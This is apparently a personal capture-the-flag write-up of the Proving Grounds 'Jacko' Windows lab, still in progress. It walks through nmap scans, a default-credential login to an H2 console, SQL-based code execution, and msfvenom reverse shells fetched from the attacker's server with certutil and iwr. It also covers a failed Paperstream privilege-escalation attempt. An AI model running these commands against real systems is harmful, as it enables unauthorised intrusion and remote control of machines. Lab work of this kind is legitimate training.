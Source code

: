 ```yaml
---
Date: 2024-10-28
Platform: PG-Practice
Category: Windows
Difficulty: Intermediate
Status: In progress
IP: 192.168.194.66
Writeup: https://medium.com/@Dpsypher/proving-grounds-practice-jacko-d42c9c1e7f9e
---
```

# Box


# Resolution summary

## Improved skills
- skill 1
- skill 2
## Used tools
- nmap
- python

---
# Information Gathering
Scanned all TCP ports:
```bash
sudo nmap -p- -T5 -vvv -oN jacko.nmap 192.168.182.66
---
PORT      STATE    SERVICE         REASON
80/tcp    open     http            syn-ack ttl 125
135/tcp   open     msrpc           syn-ack ttl 125
139/tcp   open     netbios-ssn     syn-ack ttl 125
445/tcp   open     microsoft-ds    syn-ack ttl 125
5040/tcp  open     unknown         syn-ack ttl 125
8082/tcp  open     blackice-alerts syn-ack ttl 125
9092/tcp  open     XmlIpcRegSvc    syn-ack ttl 125
39980/tcp filtered unknown         no-response
49664/tcp open     unknown         syn-ack ttl 125
49665/tcp open     unknown         syn-ack ttl 125
49666/tcp open     unknown         syn-ack ttl 125
49667/tcp open     unknown         syn-ack ttl 125
49668/tcp open     unknown         syn-ack ttl 125
49669/tcp open     unknown         syn-ack ttl 125
61417/tcp filtered unknown         no-response
```

Enumerated open TCP ports:
```bash
sudo nmap -p 80,135,139,445,5040,8082,9082,61417 -A 192.168.182.66 -oN jacko-ports.nmap -v
---
PORT      STATE  SERVICE       VERSION
80/tcp    open   http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: H2 Database Engine (redirect)
135/tcp   open   msrpc         Microsoft Windows RPC
139/tcp   open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open   microsoft-ds?
5040/tcp  open   unknown
8082/tcp  open   http          H2 database http console
| http-methods: 
|_  Supported Methods: GET POST
|_http-favicon: Unknown favicon MD5: D2FBC2E4FB758DC8672CDEFB4D924540
|_http-title: H2 Console
9082/tcp  closed unknown
61417/tcp closed unknown
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=10/28%OT=80%CT=9082%CU=41631%PV=Y%DS=4%DC=T%G=Y%TM=
OS:671F6F8E%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=10B%TI=I%CI=I%TS=U)S
OS:EQ(SP=101%GCD=1%ISR=10B%TI=I%CI=I%TS=U)SEQ(SP=101%GCD=1%ISR=10C%TI=I%CI=
OS:I%TS=U)SEQ(SP=FF%GCD=1%ISR=10B%TI=I%CI=I%TS=U)OPS(O1=M578NW8NNS%O2=M578N
OS:W8NNS%O3=M578NW8%O4=M578NW8NNS%O5=M578NW8NNS%O6=M578NNS)WIN(W1=FFFF%W2=F
OS:FFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=FFFF%O=M578NW8NN
OS:S%CC=N%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF
OS:=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=
OS:%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%
OS:T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=N)

Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=257 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-10-28T11:03:30
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```
---
# Enumeration

## Port 80 - HTTP (H2 Database)
Navigated to `http://192.168.182.66:80` and identified default page for `H2 Database Engine`
![[Pasted image 20241028212111.png]]
## Port 135 - MSRPC (Windows RPC)

## Port 139 & 445 - SMB (Apache)

## Port 5040 - Unknown
## Port 8082 - H2
- Navigated to `http://192.168.194.66:8082` and identified `H2` login
![[Pasted image 20241029150929.png]]
- Attempted connection with default credentials `sa:` (No password) and accessed admin panel
![[Pasted image 20241029151022.png]]
- Ran SQL query `SELECT FILE_READ('C:\Windows\system.ini', NULL);` to test file read ability
![[Pasted image 20241029151354.png]]
 - ## Port 9092 - Unknown
- Navigated to `http://192.168.194.66:9092` and identified unknown service
![[Pasted image 20241029150455.png]]
- Saved page and displayed with correct encoding
![[Pasted image 20241029150806.png]]

---
# Exploitation
## SQL Injection
Ran `searchsploit "H2"` and identified exploit `49384.txt` to compile and run Java code on target for code execution
![[Pasted image 20241028215150.png]]
- Copied Java script from exploit into SQL statement and ran
![[Pasted image 20241029151723.png]]
- Copied native library script into SQL statement and ran
![[Pasted image 20241029151804.png]]
- Copied script evaluation into SQL statement and ran with command `whoami` to test - identified user `jacko/tony`
![[Pasted image 20241029151921.png]]
- Ran `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.162 LPORT=4444 -f exe > revshell.exe` to create reverse shell executable
![[Pasted image 20241029152945.png]]
- Ran `python3 -m http.server 80` to offer `revshell.exe` on HTTP server
- Returned to SQL statement and edited command to `certutil -split -urlcache -f http://192.168.45.162/revshell.exe C:\\Users\\tony\\revshell2.exe` to copy reverse shell to user `tony`
![[Pasted image 20241029153124.png]]
- Started Netcat listener on port `4444`, and ran SQL statement with command `C:\\Users\\tony\\revshell2.exe` and received reverse shell 
![[Pasted image 20241029154139.png]]
---
# Lateral Movement to user
## Local Enumeration
- Ran `type C:\Users\tony\desktop\local.txt` to print `988d8a67a549358c69a1cab88b594883`
![[Pasted image 20241029154446.png]]
- Navigated to `C:\Windows\system32` and ran `whoami /priv` - identified `SeImpersonatePrivilege` is `Enabled`
![[Pasted image 20241029154741.png]]
- Ran `systeminfo` and identified `Windows 10 Build 18363` on `x64` architecture
![[Pasted image 20241029155127.png]]
- Ran `set PATH=%PATH%C:\Windows\System32;C:\Windows\System32\WindowsPowerShell\v1.0;` to fix error with file path
![[Pasted image 20241029180455.png]]
- Ran `powershell -ep bypass` to start `Powershell` with scripts allowed

---
# Privilege Escalation
- Enumerated host programs and identified `Paperstream IP`
![[Pasted image 20241029181039.png]]
- Ran `searchsploit "Paperstream"` - identified & copied exploit `49382.ps1`
![[Pasted image 20241029181138.png]]
- Updated `49382.ps1` to save `shell.dll` to `C:\Users\tony\`
![[Pasted image 20241029181316.png]]
- Ran `msfvenom -p windows/x64/shell_reverse_tcp -f dll -o shell.dll LHOST=192.168.45.162 LPORT=4444` to generate `shell.dll` file
- Ran `iwr -uri http://192.168.45.162/shell.dll -outfile shell.dll` & `iwr -uri http://192.168.45.162/49382.ps1 -outfile paperstreamexploit.ps1` to copy `shell.dll` & `paperstreamexploit.ps1` into `C:\Users\tony` directory from http server
![[Pasted image 20241029181732.png]]
- Started netcat listener and ran `.\paperstreamexploit.ps1` - payload triggered but no reverse shell received
![[Pasted image 20241029181902.png]]

---
# Trophy & Loot
`local.txt` = `988d8a67a549358c69a1cab88b594883`
`proof.txt` = ``